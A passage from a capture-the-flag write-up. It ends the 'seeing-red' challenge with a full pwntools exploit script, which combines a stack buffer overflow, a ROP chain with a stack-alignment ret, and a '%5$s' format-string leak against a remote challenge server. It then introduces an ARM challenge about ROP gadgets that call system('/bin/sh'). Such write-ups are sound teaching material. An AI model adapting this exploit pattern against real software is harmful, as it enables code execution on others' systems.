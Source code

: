 And that should do it! Below is the final script and resulting output. 

```python
from pwn import *

elf = context.binary = ELF("chal")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()
p = remote('gold.b01le.rs', 4008)

gdb_script = '''
init-pwndbg
'''
#gdb.attach(p, gdb_script)

offset = 72
main_offset = 0x000000000040131f
ret = 0x000000000040101a
bruh = 0x00000000004012af
payload = flat([
    'a' * 64,
    'b' * 8,
    elf.symbols['use_ticket'],
    ret,
    main_offset
])

p.sendline(payload)
#p.sendlineafter(b'song?', "%1$p")
p.sendlineafter(b'song? ', b'%5$s')
p.interactive()
```

Note that there is an extra `ret` instruction in the exploit chain for stack alignment purposes. 

![](seeing-red/seeing-red-finaloutput.png)

And we get the flag! 

# arm-and-a-leg | pwn

This challenge was inspired by MITRE's eCTF as it had me learn ARM assembly. Also I think mixing the ARM architecture with a pun about something costing "an arm and a leg" is funny. I find it really interesting as ARM is a RISC architecture, which is different than x86 which is what i started with. The goal of this challenge was to leverage some fun ROP gadgets to load x0 with a pointer to `/bin/sh` and call system. However, it looks like people manually found one_gadgets in the appropriate libc. I didn't intend this and in my opinion it isn't as fun, but hey, whatever gets the job done, right? 
